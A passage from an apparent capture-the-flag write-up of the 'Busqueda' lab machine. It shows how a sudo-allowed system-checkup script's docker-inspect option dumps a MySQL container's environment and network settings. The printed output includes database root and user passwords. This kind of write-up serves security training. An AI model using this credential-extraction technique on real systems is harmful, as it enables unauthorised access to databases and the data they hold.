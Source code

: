 ##### full-checkup

```bash
svc@busqueda:/var/www/app$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
Something went wrong
```

It straight away throws an error. Let's get back to this option after we collect more information.

### TA0006: Credential Access
#### T1552.001: Credentials in Files

When we ran the "docker-inspect" command with `{% raw %}{{json .}}{% endraw %}`, it showed all the contents. Out of that, the two most important information that we need can be obtained by using the selectors `{% raw %}{{json .Config}}{% endraw %}` and `{% raw %}{{json .NetworkSettings}}{% endraw %}`.

```bash
svc@busqueda:/var/www/app$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{% raw %}{{json .Config}}{% endraw %}' mysql_db | jq .
---[snip]---
  "Env": [
    "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
    "MYSQL_USER=gitea",
    "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
    "MYSQL_DATABASE=gitea",
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "GOSU_VERSION=1.14",
    "MYSQL_MAJOR=8.0",
    "MYSQL_VERSION=8.0.31-1.el8",
    "MYSQL_SHELL_VERSION=8.0.31-1.el8"
  ],
---[snip]---
```

```bash
svc@busqueda:/var/www/app$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{% raw %}{{json .NetworkSettings}}{% endraw %}' mysql_db | jq .
---[snip]---
      "NetworkID": "cbf2c5ce8e95a3b760af27c64eb2b7cdaa71a45b2e35e6e03e2091fc14160227",
      "EndpointID": "eea91ceddc532967b57b6f3dbf8642601be679ce209932e755125b04bca2ea5b",
      "Gateway": "172.19.0.1",
      "IPAddress": "172.19.0.3",
      "IPPrefixLen": 16,
      "IPv6Gateway": "",
      "GlobalIPv6Address": "",
      "GlobalIPv6PrefixLen": 0,
      "MacAddress": "02:42:ac:13:00:03",
      "DriverOpts": nu
---[snip]---
```

As you can see from the outputs, we got:
1. IP address of the docker container running the mysql instance
2. Credentials of the mysql database.
